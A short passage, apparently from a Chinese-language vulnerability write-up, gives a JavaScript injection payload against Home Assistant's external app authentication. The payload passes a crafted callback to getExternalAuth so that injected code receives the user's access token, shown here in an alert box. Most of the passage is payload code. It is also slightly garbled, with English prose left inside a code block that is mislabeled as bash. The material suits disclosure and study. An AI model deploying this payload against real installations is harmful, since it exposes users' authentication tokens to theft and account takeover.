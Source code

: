 ```bash
document.querySelector("home-assistant").dispatchEvent(new CustomEvent("hass-more-info", {
  detail: {
    entityId: ""
  }
}));
externalApp.getExternalAuth('
  {
    "callback": "function func(a,b){ alert(b.access_token); }; func",
    "force": "true"
  }
');//}}))
Since callback is itself
```

由于 callback 参数本身被注入到另一个 JavaScript 代码块中，因此最终的恶意代码将呈现如下形式：

```bash
function func(a, b) {
    alert(b.access_token);
}
func(true, { access_token: "(user access token)", expires_in: (expiration int) } )
```

这段代码会在一个弹出的警告对话框中显示用户的外部认证访问令牌。

